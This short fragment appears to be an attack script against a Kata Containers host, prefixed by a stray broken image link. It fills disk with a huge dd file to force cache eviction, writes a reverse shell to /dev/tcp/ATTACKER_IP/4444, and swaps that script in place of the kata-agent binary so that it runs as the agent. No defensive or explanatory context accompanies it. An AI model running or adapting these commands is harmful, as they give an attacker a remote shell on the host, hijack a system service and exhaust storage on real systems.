 # Fill memory with junk to force cache eviction
dd if=/dev/zero of=/tmp/filler bs=1M count=999999 2>/dev/null

# Example: Overwrite a shared library (e.g., libc) or init script
echo -e '#!/bin/sh\n/bin/sh -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' > /usr/bin/bisous
chmod +x /usr/bin/bisous
mv /usr/bin/kata-agent /usr/bin/kata-agent.backup
mv /usr/bin/bisous /usr/bin/kata-agent